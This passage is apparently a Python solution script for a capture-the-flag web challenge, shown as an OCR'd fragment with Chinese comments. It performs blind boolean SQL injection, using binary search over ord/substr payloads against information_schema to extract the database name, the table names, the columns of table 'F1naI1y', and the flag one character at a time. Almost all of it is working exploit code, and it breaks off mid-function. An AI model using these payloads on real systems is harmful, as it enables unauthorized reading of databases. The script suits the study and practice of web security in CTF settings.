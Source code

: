 ```python
            mid=(low+hight)//2
        if low <=32 or hight >= 127:
            break
        database_name += chr(mid)
        print("数据库为：",database_name)

def getTable(): # 获取表名
    tables_name = ""
    for x in range(1,1000):
        left = 32
        right = 127
        mid=(left+right)//2
        while left < right:
            params = {
                "id" : "0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek')),"+str(x)+",1))>"+str(mid)+")"
            }
            r=requests.get(url=url,params=params)
            if "others~~~" in r.text:
                left = mid + 1
            else:
                right = mid
            mid = (left + right) // 2
        if left < 32 or right > 127:
            break
        tables_name += chr(mid)
        print("table:",tables_name)
        time.sleep(1)
#  F1naI1y,Flaaaaag
def getColmun():
    column_name=""
    for x in range(1,1000):
        left=32
        right=127
        mid=(left+right)//2
        while left<right:
            while left < right:
                params = {
                    "id": "0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y'))," + str(x) + ",1))>" + str(mid) + ")"
                }
                r = requests.get(url=url, params=params)
                if "others~~~" in r.text:
                    left = mid + 1
                else:
                    right = mid
                mid = (left + right) // 2
            if left < 32 or right > 127:
                break
            column_name += chr(mid)
            print("column:",  column_name)
            time.sleep(1)

def getFlag():
    flag=""
    for x in range(1,1000):
        left=32
        right=127
        mid=(left+right)//2
        while left<right:
            while left < right:
                params = {
```